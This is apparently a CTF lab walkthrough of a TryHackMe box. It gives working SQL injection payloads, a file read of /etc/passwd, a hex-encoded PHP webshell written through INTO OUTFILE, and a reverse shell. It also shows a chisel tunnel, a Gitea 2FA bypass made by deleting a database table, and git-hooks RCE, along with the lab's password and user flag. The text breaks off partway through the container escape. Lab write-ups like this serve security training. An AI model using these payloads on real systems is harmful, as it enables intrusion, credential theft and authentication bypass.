## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:c9:dd:9b:db:95:9e:fd:19:a9:a6:0d:4c:43:9f:fa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDrxDlZxvJUZk2qXaeBdjHxfM3MSGpZ8H6zPqgarnP3K806zE1Y/CryyT4wgIZYomtV8wUWHlFkuqbWjcKcM1MWcPjzGWfPZ2wHTNgUkHvBWZ+fxoX8vJoC6wfpifa7bSMaOItFWSLnMGOXigHbF6dPNyP+/kXAJE+tg9TurrTKaPiL6u+02ITeVUuLWsjwlLDJAnu1zDhPONR2b7WTcU/zQxHUYZiHpHn5eBtXpCZPZyfOZ+828ibobM/CAHIBZqJsYksAe5RbtDw7Vdw/8OtYuo4Koz8C2kBoWCHvsmyDfwZ57E2Ycss4JG5j7fMt7sI+lh/NHE+/7zrXdH/4njCD
|   256 c3:fc:10:d8:78:47:7e:fb:89:cf:81:8b:6e:f1:0a:fd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMlni4gM6dVkvfGeMy6eg/18HsCYvvFhbpycXiGYM3fitNhTXW4WpMpr8W/0y2FszEB6TGD93ib/lCTsBOQG5Uw=
|   256 27:68:ff:ef:c0:68:e2:49:75:59:34:f2:bd:f0:c9:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICQIHukp5WpajvhF4juRWmL2+YtbN9HbhgLScgqYNien
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Canis Queue
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `yearofthedog.thm` to my `/etc/hosts`.

### ...

I started with the main page



I noticed that the number in the queue is based on some id cookie. I tried to get `SQL Injection`, by giving once `'and '1'='1' -- -`, here in the picture:



Then, when giving `'and '1'='0' -- -`, I got different result, means there is potential `SQLi`.


I created this payload, which allows me to get whatever I want.
```bash
id=11fe3d6015a1d6618978fb9a6f3193ef' union select null,(select 'LOL')-- -
```



Now, I checked for my privileges:
```bash
id=11fe3d6015a1d6618978fb9a6f3193ef' union select null,(select group_concat(PRIVILEGE_TYPE,'~',grantee) from information_schema.user_privileges )-- -
```



We can see we have `FILE` privilege, which is extremely interesting.
I tried to get `LFI` using `load_file`:
```bash
id=11fe3d6015a1d6618978fb9a6f3193ef' union select null,(SELECT LOAD_FILE('/etc/passwd'))-- -
```

it worked, we got `/etc/passwd`.



Next, I tried to achieve writing to files using `into outfile`, which I got too:
```bash
id=11fe3d6015a1d6618978fb9a6f3193ef' union select null,(select 'testing') into outfile '/var/www/html/out'-- -
```



I wrote to `/var/www/html/out`, let's try to fetch `http://yearofthedog.thm/out`:



Now, it's time to write our webshell to `/var/www/html/webshell.php`. Notice, it blocks me when it detects `>` or `<`, so I'm using unhex with the hex string of:
```php
<?php echo system($_GET[0]) ?>
```



the full line will be:
```bash
id=11fe3d6015a1d6618978fb9a6f3193ef' union select null,(select unhex('3c3f706870206563686f2073797374656d28245f4745545b305d29203f3e')) into outfile '/var/www/html/webshell.php'-- -
```



we got `RCE` when accessing `/webshell.php?0=id`.

Let's paste the penelope payload and get our reverse shell



### Move to user dylan using password found inside work_analysis

I went to the home folder of `dylan` and found the file `work_analysis` which is interesting:
```bash
www-data@year-of-the-dog:/home/dylan$ cat work_analysis | grep dylan
Sep  5 20:52:57 staging-server sshd[39218]: Invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624
Sep  5 20:53:03 staging-server sshd[39218]: Failed password for invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624 ssh2
Sep  5 20:53:04 staging-server sshd[39218]: Connection closed by invalid user dylanLabr4d0rs4L1f3 192.168.1.142 port 45624 [preauth]
```



Maybe `Labr4d0rs4L1f3` is the password for `dylan`?



Ok. it is the password. Let's take the user flag:
```bash
dylan@year-of-the-dog:~$ cat user.txt 
THM{OTE3MTQyNTM5NzRiN2VjNTQyYWM2M2Ji}
```

### ....

I checked for opened ports using `ss -tl` and noticed port `3000`:



So, I checked whether this is http port using curl:
```bash
dylan@year-of-the-dog:~$ curl http://localhost:3000/ -s | head
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head data-suburl="">
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <meta http-equiv="x-ua-compatible" content="ie=edge">
        <title> Year of the Dog </title>
        <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
        <meta name="theme-color" content="#6cc644">
        <meta name="author" content="Gitea - Git with a cup of tea" />
```

It is. it looks like something we would like to further investigate, let's setup port tunneling.
For that we'll upload `chisel` and setup the port tunneling.

* local machine:
```bash
chisel server --reverse -p 1234
```

* remote machine:
```bash
./chisel client 192.168.138.59:1234 R:3000:127.0.0.1:3000
```



Now, we can access `http://localhost:3000/` on our browser



We can see this is `Gitea Version: 1.13.0`, I searched online and found authenticated `RCE` exploit, here [https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce). 
For this to work, we need administrator account, to setup the git hooks.

I tried to login with the credentials of `dylan`, but it required two factor authentication, which I don't have.



Then, I tried to create new account with the name `testing`, and to login as this account. The problem was that I'm not an admin, so I can't control git hooks.

Inside `/gitea/gitea` I found the file `gitea.db`, which is sqlite3 db file. Since we don't have sqlite3 installed on the remote machine, we'll download this file to analyze it.



Now, I first checked tables:



I saw the table `two_factor`, let's try to delete it, and then send replace the db with the new one.
```bash
delete from two_factor;
```

After replacing the db, it worked, we managed to login as `dylan`:



Now, we can use this module `multi/http/gitea_git_hooks_rce` from metasploit to get `RCE` via git hook. We can also do it manually by following the orders here [https://exploit-notes.hdks.org/exploit/version-control/git/gitea/](https://exploit-notes.hdks.org/exploit/version-control/git/gitea/).



### Privilege Escalation to Root

We got shell as user `git`, I pasted the payload from penelope. we can see we are located inside a container.



After some navigation, I found the folder `/data` which looks very simililar to something I've already saw on the host machine



this is on the host machine:



I create the file `bla` inside `/gitea/git` on the host machine, and checked if it appears on the docker container:
